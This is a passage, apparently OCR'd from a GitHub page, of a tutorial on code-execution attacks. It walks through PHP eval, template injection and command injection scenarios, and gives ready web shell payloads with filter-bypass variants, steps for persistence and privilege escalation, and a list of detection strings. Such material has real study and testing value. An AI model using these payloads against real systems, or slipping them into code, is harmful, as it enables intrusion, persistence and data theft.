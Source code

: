 #### **Step 2: Payload Testing**
For each endpoint and parameter combination:
1. **Send payload:** Inject code execution attempt
2. **Analyze response:** Look for execution indicators
3. **Escalate access:** If successful, try more powerful commands

#### **Step 3: Indicator Detection**
```python
indicators = ['uid=', 'gid=', 'root:', 'www-data', 'apache', 'nginx']
```

These strings indicate successful command execution:
- **`uid=`** - Unix user ID (from `whoami` or `id` commands)
- **`gid=`** - Unix group ID
- **`root:`** - Root user entry from `/etc/passwd`
- **`www-data`** - Common web server user
- **`apache`/`nginx`** - Web server process names

#### **Real-World Shellcode Attack Scenarios:**

#### **Scenario 1: PHP Web Application**
1. **Discovery:** Find calculator app with `eval()` function
2. **Testing:** Submit `<?php echo 'test'; ?>` - gets executed
3. **Reconnaissance:** Use `<?php system('ls -la'); ?>` to explore filesystem
4. **Persistence:** Create web shell: `<?php system($_GET['cmd']); ?>`
5. **Data extraction:** Access database, download sensitive files
6. **Lateral movement:** Scan internal network for other targets

#### **Scenario 2: Template Injection**
1. **Discovery:** Find contact form that reflects user input
2. **Testing:** Submit `{{7*7}}` - returns `49`
3. **Exploration:** Try `{{config}}` - reveals configuration
4. **Exploitation:** Use `{{''.__class__.__mro__[1].__subclasses__()}}` for Python object access
5. **Code execution:** Achieve remote command execution through Python objects

#### **Scenario 3: Command Injection**
1. **Discovery:** Find network diagnostic tool (ping, traceroute)
2. **Testing:** Submit `google.com; whoami` - shows current user
3. **Escalation:** Try `google.com && sudo -l` - check sudo permissions
4. **Privilege escalation:** Exploit sudo misconfiguration for root access
5. **Persistence:** Create cron job for recurring access

#### **Advanced Shellcode Techniques:**

#### **1. Bypassing Filters**
```python
# Original payload
"<?php system($_GET['cmd']); ?>"

# Bypassing keyword filters
"<?php sy"+"stem($_GET['cmd']); ?>"  # String concatenation
"<?=`$_GET[0]`?>"                   # Short tags and backticks
"<?php $a='sys'.'tem'; $a($_GET['cmd']); ?>"  # Dynamic function names
```
